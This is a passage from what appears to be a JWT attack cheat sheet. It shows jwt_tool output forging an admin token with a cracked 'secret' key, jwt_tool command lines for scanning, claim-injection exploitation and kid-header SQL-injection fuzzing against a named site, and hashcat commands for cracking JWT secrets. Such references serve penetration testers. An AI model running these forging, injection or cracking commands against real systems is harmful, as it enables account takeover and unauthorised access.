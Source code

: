 Finally, finish the token by signing it with the previously retrieved "secret" key.

```powershell
Token Signing:
[1] Sign token with known key
[2] Strip signature from token vulnerable to CVE-2015-2951
[3] Sign with Public Key bypass vulnerability
[4] Sign token with key file

Please select an option from above (1-4):
> 1

Please enter the known key:
> secret

Please enter the key length:
[1] HMAC-SHA256
[2] HMAC-SHA384
[3] HMAC-SHA512
> 1

Your new forged token:
[+] URL safe: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da_xtBsT0Kjw7truyhDwF5Ic
[+] Standard: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNTE2MjM5MDIyfQ.xbUXlOQClkhXEreWmB3da/xtBsT0Kjw7truyhDwF5Ic
```

* Recon: `python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw`
* Scanning: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -M pb`
* Exploitation: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`
* Fuzzing: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -I -hc kid -hv custom_sqli_vectors.txt`
* Review: `python3 jwt_tool.py -t https://www.ticarpi.com/ -rc "jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po;anothercookie=test" -X i -I -pc name -pv admin`


#### Hashcat

> Support added to crack JWT (JSON Web Token) with hashcat at 365MH/s on a single GTX1080 - [src](https://twitter.com/hashcat/status/955154646494040065)

* Dictionary attack: `hashcat -a 0 -m 16500 jwt.txt wordlist.txt`
* Rule-based attack: `hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule`
* Brute force attack: `hashcat -a 3 -m 16500 jwt.txt ?u?l?l?l?l?l?l?l -i --increment-min=6`


## JWT Claims

